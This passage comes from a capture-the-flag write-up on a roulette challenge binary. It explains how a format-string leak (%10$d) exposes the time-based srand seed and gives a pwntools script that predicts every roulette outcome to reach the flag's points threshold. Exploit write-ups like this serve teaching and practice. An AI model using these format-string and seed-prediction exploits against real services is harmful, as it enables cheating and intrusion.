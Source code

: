 We started the program at `1613936438`, and the tenth value on the stack is `1613944924`. That seems close enough to be the timestamp.

Now, all that's left is to use this value as the seed for `srand` and guess all the random numbers until we have enough points to get the flag.

```python
# First, generate pwntools template via:
#  pwn template --host challenges.ctfd.io --port 30426 roulette.bin

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      PIE enabled

from ctypes import *

MAX_POINTS = 10000000
EXEC_COMMAND_BET_VALUE = 202009

def send_bet(bet):
    log.info(f"Sending bet: {bet}")
    io.sendlineafter("Choose your bet (1-36)\n", str(bet))
    if bet != EXEC_COMMAND_BET_VALUE:
        io.recvuntil("You won this round\nPoints: ")
        num_points = io.recvline_regexS(r"\d+", keepends = False)
        return int(num_points)
    else:
        return None

def exec_command(command):
    send_bet(EXEC_COMMAND_BET_VALUE)
    io.sendlineafter("Please enter your command (it will be printed to make sure you entered the right one):\n", command)
    return io.recvlineS(keepends = False)

def genrate_random_number(start, end):
    random_num = libc.rand()
    return start + random_num % ((end - start) + 1)

def init_game():
    io.recvuntil("This is a roulette game\nYou have ")
    num_points = io.recvregexS(r"\d+")
    io.recvuntil(" point to start with.\n")
    io.sendlineafter("How many games would you like to play(Up to 2)?\n", "-1")
    return int(num_points)

if __name__ == '__main__':
    libc = CDLL("libc.so.6")

    io = start()

    num_points = init_game()

    time_seed = int(exec_command("%10$d"))
    log.info(f"Seed: {time_seed}")
    libc.srand(time_seed)

    while num_points < MAX_POINTS:
        expected_num = genrate_random_number(1, 0x24)
        num_points = send_bet(expected_num)
```